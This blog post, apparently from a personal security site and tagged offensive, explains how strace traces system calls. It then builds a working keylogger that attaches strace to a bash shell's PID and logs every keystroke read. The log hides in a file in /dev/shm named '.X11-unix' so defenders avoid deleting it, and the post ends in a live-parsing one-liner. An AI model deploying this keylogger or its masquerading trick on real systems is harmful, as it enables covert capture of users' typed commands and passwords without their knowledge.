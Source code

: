 ```yaml
---
title: Strace - Bash Keylogger
date: 2021-11-17 00:00:00 +0000
categories: [Linux, Tools, Offensive]
tags: [linux, tools, offensive]
toc: true
published: true
---
```

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Ffredd%2Eie%2Fposts%2Fstrace-keylogger)](https://fredd.ie/posts/strace-keylogger) 

## Introduction

System calls are used by processes to interact with the kernel. 
For example if a process wants to read or write to a file, they must make a system call to do so.

To see this in practice, we'll use `strace`.

`strace` simply traces system calls, and is primarily used for debugging purposes. 

For this demonstration we'll use the basic command echo:
```bash
echo "Freddie" > /tmp/demo.file
```

This command simply writes the string "Freddie" to the temporary file `/tmp/demo.file`

We can use `strace` to trace what system calls are being called during the execution of this command, and to view what is actually going on under the hood.

To do this, we could simply run `strace [command]`, although to glean even more information about the process, we can actually attach the `strace` tool to the parent process.
This allows us to trace the bash redirect (`>`), and is generally more insightful. 


- `strace -p [pid]` attaches to a PID (Process ID)
- `$$` in bash is the current process's PID (or the bash shell)

![](/assets/images/strace/strace-output-1.png)


You can see we have now attached to the process running above.

We can now paste our `echo` command we created above.

If you're following along, prepare to be greeted with an overwhelming amount of information.

If we ignore the irrelevant (for the purposes of this demonstration) system calls made by bash and search for our input we can see two key system calls are made. 

![](/assets/images/strace/strace-output-2.png)


`openat()` - This opens `/tmp/demo.file` with the 0666 permissions.
`write()` - This core system call writes the string `Freddie\n` to the opened file. 

It is worth noting the newline is appended by default by the echo command - we can remove that with `echo -n [string]` if necessary. 


If you have been following the commands, you may have noticed something interesting when tracing the bash process. 

![](/assets/images/strace/strace-output-3.png)

When we type commands into the bash shell above, each character can be seen in both the `read` and `write` system calls. From this simple observation we can process the strace output to create a very rudimentary bash keylogger. 
<br>

### Basic Keylogger

As seen by the previous strace example, a large amount of unimportant system calls are also generated. To filter only the system calls we want, we can use the `-e [syscall]` flag with strace.

We will select the `read` system call to detect all keys entered.

![](/assets/images/strace/strace-output-8.png)

This looks much better. 

Now, let's try to extract input in a more readable format.
This is where the fun(?) begins. 

![](/assets/images/strace/strace-output-7.png)

If we try to pipe our strace output to any text processing commands, nothing.
After a considerable amount of head banging and stack overflow researching, this is due to the fact `strace` writes all it's output to `stderr`. 

![](/assets/images/strace/strace-output-6.png)

With a little more help from stack overflow (I fear any man who can remember regex), each character inside the quotes can be extracted. 

![](/assets/images/strace/strace-output-9.png)

This is when another *slight* issue arises. Due to some linux black magic, if you pipe the output of strace to grep, it is "buffered", and cannot be easily piped into further commands. 
<br>

To get around this technical issue, we can output strace to a file in the background, then read the file and perform operations on that output. 

### Basic Evasion

```bash
strace -e read -p [pid] -o /dev/shm/.X11-unix
```

The above command creates a hidden file in `/dev/shm`. The `/dev/shm` directory lives only in live memory, and is volatile. This makes it great for writing files we don't want to be found, as the folder is wiped on restart. 

`X11` is a linux graphics display, and `.X11-unix` is it's config file.

From experience you should not delete that (the real) file - bad things happens.

This taps into the primal instinct of "bugger I won't delete that again" to prevent defenders from ***not*** deleting our keylogger file >:)

<br>

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix
```


We can background the `strace` command, then read the hidden file in order to parse it correctly.
<br>

### Parsing

Now, all that is needed to be done is to parse the strace output in a readable manner. 

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix | grep -oa -E '"(.*?)"' | sed 's/^.\(.*\).$/\1/' | tr -d "\n" | sed -e "s/\\\r/\n/g" 
```
<br>

If we wrap the `cat` command using `watch` to continually update it, we can see captured keystrokes in live time.

```bash
watch -n 0.1 'cat [command]'
```
<br>

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

The result:

![](/assets/images/strace/keylogger-in-action.png)

Voila!

The final step to construct our janky bash keylogger, is to concatenate it into a glorious one-liner:

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix & watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

We now have a functioning keylogger, that operates off a commonly installed debugging tool `strace`!
<br>
### Conclusion

If there's any takeaway messages from this absolute abomination of a script and article, it's that there is almost nothing that Stack Overflow and a little glue can't fix™
